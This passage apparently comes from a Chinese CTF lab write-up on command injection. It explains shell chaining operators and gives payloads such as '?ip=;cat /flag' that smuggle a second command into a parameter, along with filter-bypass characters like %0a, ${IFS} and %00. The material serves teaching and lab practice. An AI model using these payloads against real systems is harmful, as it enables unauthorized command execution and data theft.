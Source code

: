 | 运算符               | 说明                                                         | 示例代码                                                     |
| -------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `&&`（逻辑与运算符） | AND操作 只有当第一个命令 `cmd_1` 执行成功（返回值为 0）时，才会执行第二个命令 `cmd_2`。 | `mkdir new_folder && cd new_folder` （只有在新建文件夹成功后才进入该文件夹） |
| `\|\|`（逻辑或运算符） | OR操作 只有当第一个命令 `cmd_1` 执行失败（返回值不为 0）时，才会执行第二个命令 `cmd_2`。 | `mkdir new_folder \|\|echo "Folder exists"` （如果创建文件夹失败，则输出 "Folder exists"） |
| `&`（后台运行符）    | 将命令 `cmd_1` 放到后台执行，Shell 立即执行 `cmd_2`，两个命令并行执行。 | `sleep 10 & echo "This will run immediately."`               |
| `;`（命令分隔符）    | 无论前一个命令 `cmd_1` 是否成功，都会执行下一个命令 `cmd_2`。这允许将命令堆叠在一起。命令会依次执行。 | `echo "Hello"; echo "World"` （先输出 "Hello"，再输出 "World"） |

所以只需要在输入的时候 在后面利用连接符拼接我们想要执行的命令即可：

GET 下面几种均可：

```bash
?ip=1.1.1.1&&cat /flag

?ip=||cat /flag

?ip=;cat /flag

?ip=&cat /flag  # &需要URL编码
```

扩展：其他Shell符号：

| 操作符                                                       | 结果                                                         | 示例                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| `command1 > command2` <br />`command1 < command2` <br />`command1 >> command2` | 这些操作符是重定向操作符。它们用于重定向输入或输出。         | `echo "Hello" > output.txt` （将 "Hello" 写入到 output.txt 文件） <br />`cat < input.txt` （读取 input.txt 的内容并在终端显示）<br /> `echo "Hello" >> output.txt` （将 "Hello" 追加到 output.txt 文件中） |
| `` `command2` ``                                             | 反引号将一个单独的命令封装在原始命令处理的数据中。           | `` echo "Today is \`date\`" ``（将日期命令的输出嵌入到 "Today is" 之后） |
| `command1 \| command2`                                        | 管道可用于将多个命令链接起来。一个命令的输出会被重定向到下一个命令中。 | `ls -l \| grep ".txt"` （列出所有以 .txt 结尾的文件）         |
| `$(command2)`                                                | `$` 符号执行括号内的命令。                                     | `echo "Today is $(date)"` （将日期命令的输出嵌入到 "Today is" 之后） |
| `- command`                                                  | 短横线用于向目标命令添加其他操作。                           | `ls -l -h` （列出文件时显示文件大小的可读格式）              |

### Level 5 - 8: 命令执行 - 终端中的功能/特殊字符

题目引导给出来了大部分内容了：

```
分割符：
换行符 %0a
回车符 %0d


%09 —— TAB制表符的URL编码


$9 —— 当前系统shell进程的第九个参数的持有者，它始终为空字符串,但该条目在容器中测试体现如下：
bash-5.1# echo $9 | base64
Cg==(URLen:%0A) —— 输出为回车符号

${<!-- -->IFS} —— 加一个{}固定了变量名- 同理在后面加个$可以起到截断的作用
<
<> —— 该方法无法通过system函数实现。但在终端可以复现。

命令终止：
%00 —— NULL字符
```

